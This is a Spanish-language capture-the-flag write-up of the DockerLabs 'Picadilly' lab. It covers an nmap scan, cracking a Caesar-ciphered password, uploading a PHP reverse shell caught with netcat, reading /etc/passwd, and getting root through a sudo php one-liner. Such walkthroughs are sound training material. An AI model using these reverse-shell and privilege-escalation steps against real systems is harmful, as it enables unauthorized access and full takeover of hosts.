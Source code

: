 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Comenzamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 19:49 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

Encontramos dos servicios http y https, vamos a ver la web http: 

![picadillyweb.png](assets/picadillyweb.png)

Vemos que es un listado de archivos con un archivo subido:

```bash 
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```

Vemos que esta el usuario mateo que tiene una contraseña que parece que tiene las letras cambiadas de posición.

Por lo que hacemos una simple búsqueda en google y nos da estos resultados:

![cesarletrasgoogle.png](assets/cesarletrasgoogle.png)

Parece que es el cifrado Cesár, vamos a la web dCode para descifrarlo:

![cesardcode.png](assets/cesardcode.png)

Encontramos en la primera rotación que se forma la frase en ingles easycrxazy, con una x en medio de crazy, vamos a guardarla como tal y si en un futuro no funciona la pruebo como easycrazy

User: **mateo** Password: **easycrxazy**

Ahora vamos a ver la web que hay alojada en el servicio https:

![picadillywebhttps.png](assets/picadillywebhttps.png)

hay una opción abajo de la web de subir archivos así que vamos a probar con una reverse shell de php a ver que tal:

![revshellpicadilly.png](assets/revshellpicadilly.png)

Subo una reverse shell de php hecha en la web RevShells, en conreto la pentest monkey y parece que se ha subido y se ha actualizado la web mostrando el nuevo post, dado que en todas las maquinas que he hecho siempre se suben los archivos al directorio /uploads, pruebo ponerlo a ver si sale y de primeras me da justo el resultado que intuí:

![picadillyuploads.png](assets/picadillyuploads.png)

así que iniciamos net cat y clickamos el php:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 55912
Linux fbf4dd865800 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 18:17:42 up 35 min,  0 user,  load average: 2.01, 1.05, 1.28
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbf4dd865800:/$ 

```

Obtenemos acceso con www-data, enumeramos permisos que podamos tener y no encuentro nada así que vamos a ver el etc/paswd a ver si existe el usuario mateo ya que si es el caso, tenemos sus credenciales:

```bash
www-data@fbf4dd865800:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mateo:x:1000:1000::/home/mateo:/bin/bash
www-data@fbf4dd865800:/$ 
```

Existe, hacemos un su a mateo con la contraseña que hemos descifrado:

```bash
www-data@fbf4dd865800:/$ su mateo
su mateo
Password: easycrxazy
su: Authentication failure
www-data@fbf4dd865800:/$ su mateo
su mateo
Password: easycrazy
whoami
mateo
```

El primer caso no da resultado pero el segundo si, aunque obtenemos una shell poco interactiva, vamos a hacer un tratamiento de tty:

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

ahora vamos a enumerar los permisos Sudo:

![mateosudoperm.png](assets/mateosudoperm.png)

Buscamos en gtfobins y vemos que tenemos esto para php en Sudo:

![gtfobinsphppicadilly.png](assets/gtfobinsphppicadilly.png)

Lo usamos de una manera personalizada para hacerlo en una sola linea:

```bash
sudo php -r "system('/bin/sh');"
```

![rootPicadilly.png](assets/rootPicadilly.png)

Y obtenemos root.